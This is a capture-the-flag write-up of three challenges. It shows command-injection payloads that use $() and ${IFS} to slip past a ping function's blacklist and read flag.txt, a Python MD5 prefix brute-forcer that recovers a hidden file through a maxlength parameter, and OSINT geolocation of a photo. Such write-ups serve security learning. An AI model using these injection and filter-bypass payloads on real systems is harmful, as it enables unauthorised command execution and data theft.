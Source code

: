# Table Of Contents

1. [Web Baby]#web-baby)
2. [Ye Olde News Website]#ye-olde-news-website)
3. [Relic Race]#relic-race)

## Web Baby

The website contains a function to ping an IP Address. Looking through the source code, we can deduce that multiple restrictions are set, namely:

1. Input cannot be longer than 15 characters
2. Many special characters are blacklisted

The characters below are the few that are not blacklisted:

* {}, (), $

​![image](assets/image-20231209205806-d5jxrso.png)​

Notice how the code takes our user input without sanitizing it. This makes the program vulnerable to **command injection**. After searching through cheatsheets such as **payloadallthethings**, I eventually found out  *$() * can be used for command injection.

​`$(whoami)`​

* bad address 'baby_web'

​`$(pwd)`​

* bad address '/'

​`$(ls)`​

* no result was shown, hinting that all files and directories are hidden in '/'

​`$(ls${IFS}*)`​

* ls: can't open 'root': Permission denied

Initially, I thought that **ls was disabled on the machine**. Thus, I searched for alternatives to ls and found this article:

* https://ubunlog.com/en/alternativas-al-comando-ls/

In the article I found this:

```
for **list hidden files** we will execute:
	echo *.*
```

After using that with the payload `$(ls${IFS}*.*)`​, we received the output:

* bad address 'flag.txt'

Replace ls with cat to get the flag! `$(cat${IFS}*.*)`​

* bad address 'STANDCON{1nj3ct1On\_@+\_uR\_c0MM@Nd}'

### References:

https://semgrep.dev/docs/cheat-sheets/go-command-injection/

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection

https://0x80dotblog.wordpress.com/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/

https://security.stackexchange.com/questions/219605/command-injection-filtering-bypass

https://www.cobalt.io/blog/a-pentesters-guide-to-command-injection

## Ye Olde News Website

These are the directories of interest found after examining the JavaScript on the web application:

```javascript
<script id="setup">
let HOST = "/"
let params = (new URL(document.location)).searchParams;
let article = params.get("article");
document.getElementById('title').innerHTML = article.split(".")[1];

fetch(HOST+'dir?category=article')
   .then(response => response.text())
   .then(text => document.getElementById("articleList").innerHTML=text)

setTimeout(() => {
fetch(HOST+"getArticle?maxlength=200&name="+article)
   .then(response => response.text())
   .then(text => document.getElementById("content").innerHTML=text.replace(/\\n/g,"<br>").slice(1, -1) + '...<br><br><b>Subscribe to read more!</b>')

document.getElementById('setup').remove();
},1000)
</script>
```

/dir?category=.

* use '.' to list out files since most filenames contain that character

  ​![image](assets/image-20231208233128-hcm8avm.png)​

/getArticle?maxlength=10000&name=article3.secret.txt

* get the text itself without it being cut off.
* maxlength grabs the first x number of characters specified in the url variable.	![image](assets/image-20231208233042-a49nwuv.png)​

* confidential articles are not to be read. Only the hash of such files are provided. Since the hash of the file constantly changes based on the maxlength variable, which is the first x number of characters in the file, we can use that to brute force the flag.

  ​![image](assets/image-20231208233216-vwfz7cs.png)​

  ​![image](assets/image-20231208233232-vicok9t.png)​

Grab the hash of the flag when max length = 10. This is because we already know the first 9 characters of the flag, `STANDCON{`​. Thus, we only need to brute force from the 10th character onwards.

Append all possible characters to the current flag, hash that appended text via md5 and compare hashes. A POC is provided below:

```python
#!/usr/bin/python3
import sys
import hashlib
# Use the latest hash and the current flag you possess to brute force the NEXT CHARACTER in the flag.
# Eg. md5 hash of first 10 chars of the flag as argument1, first 9 characters of flag as argument2.
currenthash = sys.argv[1]
currentflag = sys.argv[2]
wordlist='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_=+\\|~`[]{}'

for x in wordlist:
	newflag = currentflag + x
	hashedNewFlag = hashlib.md5(newflag.encode('UTF-8')).hexdigest()
	if(hashedNewFlag == currenthash):
		print("Latest Character Found!")
		print("Flag: " + newflag)
```

Flag: STANDCON{Y3_0LD3_S1MPL3_FL4G}

​![image](assets/image-20231208125817-77o5wtw.png)​

### References:

https://stackoverflow.com/questions/1009860/how-can-i-read-and-process-parse-command-line-arguments

## Relic Race

We were provided a screenshot of the thief's device. It contains an image of a QR Code, and satellite map image of an unknown location.

​![screenshot](assets/screenshot-20231209212451-adhfb6f.png)​

Decode the qr code using this website:

* https://products.aspose.app/barcode/recognize#/recognized
* M1BOSCO/MARK MR       1A11A1 SINLHRBN XXX  331Y26J 37    00

from the ticket, we deduce Mr. Mark is going from Singapore to Harbin. However, that is NOT the location in the image because China drives on the right side of the road, not the left as shown in the image.

As the hint leads to overpass turbo, a graphical mapping tool which utilises openstreetmaps, I utilised a script I found to locate all **gas stations near banks**.

```
<!--
This is an example Overpass query.
Try it out by pressing the Run button above!
You can find more examples with the Load tool.
-->
<query type="node">
  <has-kv k="amenity" v="bank"/>
  <bbox-query {{bbox}}/>
</query>
<query type="node">
  <around radius="300"/>
  <has-kv k="amenity" v="fuel"/>
</query>

<print/>
```

Search all located nodes found, 17 in my case, and you will eventually find the exact location as shown in the initial **screenshot.png** file provided to us.

​![image](assets/image-20231208174208-rhkikcw.png)​

​![image](assets/image-20231208174224-9q7ruwt.png)​

Grab the coordinates and place it into google maps to double check:

​![image](assets/image-20231208174249-37rjtg6.png)​

Try the postal code of both the bank and the fuel station. In the end, the postal code of the fuel station is the correct answer for the flag.

* 312 Seven Sisters Rd, Greater, Finsbury Park, London N4 2AW, United Kingdom
* STANDCON23{N4 2AW}

### References

https://help.openstreetmap.org/questions/33089/proximity-search-node-with-tag1-near-node-with-tag2

https://wiki.openstreetmap.org/wiki/Map_features#Aerialway
